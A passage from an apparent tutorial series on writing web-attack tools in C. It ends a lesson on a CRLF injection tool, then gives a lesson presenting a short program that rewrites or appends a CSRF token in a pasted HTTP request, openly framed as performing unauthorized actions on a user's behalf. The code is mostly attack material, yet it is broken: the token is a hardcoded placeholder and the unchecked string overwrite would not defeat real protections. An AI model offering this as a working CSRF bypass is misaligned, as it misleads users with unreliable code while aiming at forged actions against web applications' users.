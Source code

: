 This concludes our twenty-third lesson on building a CRLF injection tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 24: Building a CSRF Bypass Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to demonstrate bypassing Cross-Site Request Forgery (CSRF) protection mechanisms. CSRF attacks exploit the trust that a web application has in a user's browser by tricking it into making unintended requests. Our tool will manipulate HTTP requests to bypass CSRF protections and perform unauthorized actions on behalf of a user.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Function to manipulate HTTP request to bypass CSRF protection
void bypass_csrf(char *request) {
    // Find the CSRF token in the request (replace with actual token extraction logic)
    char *csrf_token = "csrf_token_value";

    // Find the position of the CSRF token in the request
    char *token_position = strstr(request, "csrf_token=");

    if (token_position != NULL) {
        // Replace the CSRF token with a valid token obtained by the attacker
        strncpy(token_position + strlen("csrf_token="), csrf_token, strlen(csrf_token));
    } else {
        // If CSRF token parameter not found, insert it at the end of the request
        strcat(request, "&csrf_token=");
        strcat(request, csrf_token);
    }

    // Print the manipulated request
    printf("Manipulated request:\n%s\n", request);
}

int main() {
    char request[500];

    // Prompt user for HTTP request
    printf("Enter your HTTP request (e.g., POST /update_profile HTTP/1.1\\nHost: example.com\\n...): ");
    fgets(request, sizeof(request), stdin);

    // Perform CSRF bypass
    bypass_csrf(request);

    return 0;
}
```

#### Explanation:
